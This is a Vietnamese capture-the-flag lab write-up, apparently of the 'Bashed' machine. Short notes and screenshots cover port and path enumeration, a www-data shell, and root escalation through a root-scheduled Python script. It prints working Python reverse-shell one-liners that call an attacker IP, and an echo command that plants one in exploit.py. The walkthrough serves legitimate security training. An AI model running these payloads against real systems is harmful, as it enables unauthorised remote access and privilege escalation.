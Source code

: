 # bashed

liệt kê các port mở

![https://lh7-us.googleusercontent.com/_VPBBjcy6FkC7c6dgk8hi-x0xwaiOLv0y3ObNS_q7e3WH9o33cRIobMO3ZpYIZ5n4pr-m8R311h_qY1QJa-SFWyKMqxlOQIrLS-oX_Jt0gvHe2T2Oe4Jy3tkoH4PVJioIXkxFIt0-9_V](https://lh7-us.googleusercontent.com/_VPBBjcy6FkC7c6dgk8hi-x0xwaiOLv0y3ObNS_q7e3WH9o33cRIobMO3ZpYIZ5n4pr-m8R311h_qY1QJa-SFWyKMqxlOQIrLS-oX_Jt0gvHe2T2Oe4Jy3tkoH4PVJioIXkxFIt0-9_V)

liệt kê các path

![https://lh7-us.googleusercontent.com/roOJwJPJRdisIc3tGsJlb2CaY-RLfWhAM6K6AIqTslii9MqO9HOiDw_uRmvg-QxAC-wTDbk6VTRjz99a2JXDEeAAuxp9PQezND4kkgVuHUbd0iban3KsuI1LBTfr5sR59UnfHUlTY6Oy](https://lh7-us.googleusercontent.com/roOJwJPJRdisIc3tGsJlb2CaY-RLfWhAM6K6AIqTslii9MqO9HOiDw_uRmvg-QxAC-wTDbk6VTRjz99a2JXDEeAAuxp9PQezND4kkgVuHUbd0iban3KsuI1LBTfr5sR59UnfHUlTY6Oy)

truy cập p80 ko thấy thông tin gì

![https://lh7-us.googleusercontent.com/dEc3FvZ6I8IhZ_XR1r1vgUmf_CMOhPquGyjDVQ93rZqpiHwfWqvdltm8XV_FjREza3MX2cnY05jSE4LDx6dWGEvvLQdKdnSQgat3xHqropQ9eQ4uZ1Yj-N5yp3cJMqWQ4sPeDKFa9f5g](https://lh7-us.googleusercontent.com/dEc3FvZ6I8IhZ_XR1r1vgUmf_CMOhPquGyjDVQ93rZqpiHwfWqvdltm8XV_FjREza3MX2cnY05jSE4LDx6dWGEvvLQdKdnSQgat3xHqropQ9eQ4uZ1Yj-N5yp3cJMqWQ4sPeDKFa9f5g)

thử truy cập /dev

![https://lh7-us.googleusercontent.com/_es8e4pNqRCLea_QbO35tnloSG_2pNLUuoafLZI5r1eALeaUhrVRYnaXVqTS9BVunsJwbtyXK-H-b2BeIl206iPtCPpgWY0X-9LbwxL8xd6dYK-LAZ4txmwu1-zDiNkCwcVRWY1YNztt](https://lh7-us.googleusercontent.com/_es8e4pNqRCLea_QbO35tnloSG_2pNLUuoafLZI5r1eALeaUhrVRYnaXVqTS9BVunsJwbtyXK-H-b2BeIl206iPtCPpgWY0X-9LbwxL8xd6dYK-LAZ4txmwu1-zDiNkCwcVRWY1YNztt)

có quyền của www-data

![https://lh7-us.googleusercontent.com/4k6iHc4OKJ8IHNkc62pKkT5UY7PXa8Dn_kpCTnLSGBpdk0stqT8-_YcllCaieGzJYaNfGnvh9HOyuimUo0fQej9gV7Lu0biRsQXhzDrO8fhUH9PqvvL62BG1X61rkXDgefjYCeYomzAW](https://lh7-us.googleusercontent.com/4k6iHc4OKJ8IHNkc62pKkT5UY7PXa8Dn_kpCTnLSGBpdk0stqT8-_YcllCaieGzJYaNfGnvh9HOyuimUo0fQej9gV7Lu0biRsQXhzDrO8fhUH9PqvvL62BG1X61rkXDgefjYCeYomzAW)

![https://lh7-us.googleusercontent.com/bF0GZJH3G7rlIr8GSWqcVlLieGIn9h9ZVjf4islP3PzQS3kA6K7aHmRaGfJjtpLcWdasbDnbeF43NOzKDJ9nbao5d4f8bOEYN8cJnsxHNn9PE957DpW2iKcOTFYZqE5T21dIJXdfbBPx](https://lh7-us.googleusercontent.com/bF0GZJH3G7rlIr8GSWqcVlLieGIn9h9ZVjf4islP3PzQS3kA6K7aHmRaGfJjtpLcWdasbDnbeF43NOzKDJ9nbao5d4f8bOEYN8cJnsxHNn9PE957DpW2iKcOTFYZqE5T21dIJXdfbBPx)

![https://lh7-us.googleusercontent.com/VcODFHOFoIHL1IU6H8176uNTEyQ5a3ZEskzJdHgIS--pL6rQC3CFIgOCRs0dB3_J77__DALjTuFwcjgPOMwNIDzKM_7dM37_zFzdk6bkAMfUxJ6rOc-3qVdDrL0OfAcHZOHUU2Kmf_Sd](https://lh7-us.googleusercontent.com/VcODFHOFoIHL1IU6H8176uNTEyQ5a3ZEskzJdHgIS--pL6rQC3CFIgOCRs0dB3_J77__DALjTuFwcjgPOMwNIDzKM_7dM37_zFzdk6bkAMfUxJ6rOc-3qVdDrL0OfAcHZOHUU2Kmf_Sd)

![https://lh7-us.googleusercontent.com/l-wCdokMAWpRBxOwL9U02EUdp0tu3PJC1hBiuTf0gWX2QkuazFSkejpf6BEpRsDsG3h_00Euv1SF9uVPX-uUTvHIOmICaJ1ldIpP8-TZsGCFsX3BWBG8xkMAAE7URqEjx9KLxy7wt2Yg](https://lh7-us.googleusercontent.com/l-wCdokMAWpRBxOwL9U02EUdp0tu3PJC1hBiuTf0gWX2QkuazFSkejpf6BEpRsDsG3h_00Euv1SF9uVPX-uUTvHIOmICaJ1ldIpP8-TZsGCFsX3BWBG8xkMAAE7URqEjx9KLxy7wt2Yg)

reverse shell php:

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.21",4433));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(!["/bin/sh","-i"]);'

netcat

![https://lh7-us.googleusercontent.com/GlW_iHcAZN7XGXI2lYsMqammPwtt3ecy-IAHUn3IYakHjc12Z8ebZYQGQHyztDRxy-jEs3vBj60RFM0Q41HOBWvr0eo2_zYh0dbdzHo9sJHA5YRreuUwnsxl525pAkoDS_SNv32NZLBD](https://lh7-us.googleusercontent.com/GlW_iHcAZN7XGXI2lYsMqammPwtt3ecy-IAHUn3IYakHjc12Z8ebZYQGQHyztDRxy-jEs3vBj60RFM0Q41HOBWvr0eo2_zYh0dbdzHo9sJHA5YRreuUwnsxl525pAkoDS_SNv32NZLBD)

có quyền scriptmanager

nâng cấp shell:

python -c 'import pty; pty.spawn("/bin/bash")'

tìm thấy file test.py có nội dung ghi vào file test.txt

![https://lh7-us.googleusercontent.com/8VmZjLQqLKvsdvw8NWPjYpMqu9pxv8U2siPfD0pyxmF0H0gv-BvTZ8DtP-XBAxVxjDaYDD-M6kg_EuYCCOUYQ1rnr21okwGNXxFmxhYE2h78xY5r84gZpK9XPqQBp61EzMhgxwzCA3mN](https://lh7-us.googleusercontent.com/8VmZjLQqLKvsdvw8NWPjYpMqu9pxv8U2siPfD0pyxmF0H0gv-BvTZ8DtP-XBAxVxjDaYDD-M6kg_EuYCCOUYQ1rnr21okwGNXxFmxhYE2h78xY5r84gZpK9XPqQBp61EzMhgxwzCA3mN)

trong cùng thư mục tồn tại file test.txt

thử đổi tên thành test1.txt, nhận thấy khoảng 1p sau xuất hiện file test.txt mới do root tạo-> file test.py được lập lịch tự động thực thi. có thể các file .py khác cũng thế

![https://lh7-us.googleusercontent.com/hVYpro-GvUz3ynMj_gqlshCdsrf6SuAyq4jeyF2qNWQ1YrDmZbpm_EM3D1qMF82qgHsQSDDsh5cYCKeqSMNgVMfC4ttXht4zDgz_HjScRHWsknDkK-VofZ7Zhax1dm_sVk8Vm_p8efXo](https://lh7-us.googleusercontent.com/hVYpro-GvUz3ynMj_gqlshCdsrf6SuAyq4jeyF2qNWQ1YrDmZbpm_EM3D1qMF82qgHsQSDDsh5cYCKeqSMNgVMfC4ttXht4zDgz_HjScRHWsknDkK-VofZ7Zhax1dm_sVk8Vm_p8efXo)

![https://lh7-us.googleusercontent.com/iQmJuItEZXVH6ok3tpP3kt-g3rfG6rffJu8kEIlk7rzFOps74Ju_5yXyinzf1zSAKHfDgbnPpS3-Yfo71ewnWmEEky-9K5kZJpnmrEa3x-JL7jwA6rTPRLeUBwX0aDoOZeqyhNRT6GgI](https://lh7-us.googleusercontent.com/iQmJuItEZXVH6ok3tpP3kt-g3rfG6rffJu8kEIlk7rzFOps74Ju_5yXyinzf1zSAKHfDgbnPpS3-Yfo71ewnWmEEky-9K5kZJpnmrEa3x-JL7jwA6rTPRLeUBwX0aDoOZeqyhNRT6GgI)

thử tạo file exploit.py với payload để tạo reverse shell và lấy quyền root

echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.21\",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(![\"/bin/sh\",\"-i\"]);" > exploit.py

netcat và lấy flag root

![https://lh7-us.googleusercontent.com/Rj-y35hD1teNoECDG2yuHK2cFCWmYSyBd5cN3hMI7A7HcXHNiNO2XufcUadp7P3u9NBONnnuSfjfbbUG9ot_7p2xOsW1UF_YLhvxkNJkjJOqTWAxFXtaRnPo_GATvbsVDoVuayJobenx](https://lh7-us.googleusercontent.com/Rj-y35hD1teNoECDG2yuHK2cFCWmYSyBd5cN3hMI7A7HcXHNiNO2XufcUadp7P3u9NBONnnuSfjfbbUG9ot_7p2xOsW1UF_YLhvxkNJkjJOqTWAxFXtaRnPo_GATvbsVDoVuayJobenx)